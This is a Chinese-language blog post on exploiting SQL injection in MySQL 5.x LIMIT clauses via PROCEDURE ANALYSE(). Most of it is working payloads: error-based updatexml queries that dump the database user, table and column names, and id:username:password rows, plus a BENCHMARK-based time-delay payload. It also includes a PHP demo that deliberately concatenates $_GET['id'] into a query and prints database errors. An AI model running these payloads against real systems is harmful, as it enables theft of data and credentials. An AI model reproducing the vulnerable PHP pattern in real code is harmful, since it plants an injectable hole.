 ```yaml
---
layout: post
title: Mysql in Limit Sql Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>
<center>
<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erpyb5brduj20go08hgmc.jpg">
</center>

>sql注入在组合拼接方面一直都很灵活,因为语法本身就很灵活,不过Mysql的Limit下一直没办法注入,国外大牛发表了个[SQL Injections in MySQL LIMIT clause](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/)的paper,意在利用Mysql的一个优化建议函数ANALYSE()进行Limit处注入,`此方法适用于Mysql5.x`.

	SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point
	
**像这样的语句,由于后面跟着`ORDER BY`,所以无法UNION联合查询注入,那么就需要在LIMIT上找出路了**

Mysql5的`SELETCT`语法:

	SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
    
**LIMIT后面跟了两个函数,PROCEDURE和INTO,INTO除非有写入shell的权限，否则是无法利用的,那就看看PROCEDURE函数下能否注入.**

>一个测试表:

<img src="http://pfr2vvlbk.bkt.clouddn.com/34324b9a.png">

**ANALYSE函数是可以查看表的优化建议**

	PROCEDURE ANALYSE([max_elements,[max_memory]])
	
ANALYSE函数后面可以有两个参数:

	select * from injection where id>0 order by id limit 0,1 procedure analyse(1,1);

<img src="http://ww4.sinaimg.cn/mw690/9c5c5d93tw1erqfqij043j20vo02qdhl.jpg">

看起来并不是很好，尝试下在`max_elements`处添加条件表达式:


	SELECT * from injection where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);

但是立即返回了一个错误信息:

<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erqfqhkijbj20vk02u40x.jpg">

>sleep函数没执行,不过还是有办法的,利用updatexml or extractvalue函数进行报错注入:

**爆用户名:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,user()),0),1);
	
<img src="http://pfr2vvlbk.bkt.clouddn.com/213h8sad.png">

**爆表:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)),0),1);

<img src="http://pfr2vvlbk.bkt.clouddn.com/XA78as89.png">

**爆字段:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(column_name) from information_schema.columns where table_name='injection' limit 0,1)),0),1);
	
<img src="http://pfr2vvlbk.bkt.clouddn.com/32BSF8.png">

**爆数据:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat_ws(':',id,username,password) from injection limit 0,1)),0),1);

<img src="http://pfr2vvlbk.bkt.clouddn.com/sad782eq.png">

**如果不支持报错注入的话,还可以基于时间注入:**

	SELECT * FROM injection WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);

<img src="http://pfr2vvlbk.bkt.clouddn.com/3ewg87sdfb.png">

>一个Demo:

 	<?php
	/**
	 * Created by PhpStorm.
	 * User: Tr3jer
	 * Date: 15/1/24
	 * Time: 下午9:55
	 */
	include "Class_Mysql_Db_Model.php";
	
	$cof=new Config();
	$obj=new Mysql_Db_Model();
	$obj->connect($cof);
	
	$sql="select * from injection where id>0 order by id limit 0,{$_GET['id']}";
	
	if($obj->query($sql)){
		var_dump($row);
	}else{
		die(mysql_error());
	}
	
	mysql_close($obj);

<img src="http://pfr2vvlbk.bkt.clouddn.com/3neiuwyfd.png">

>执行的语句:

<img src="http://pfr2vvlbk.bkt.clouddn.com/2nuefdys8.png">

>Mysql内建的特性有很多,不过能够利用的缺陷还有待挖掘:)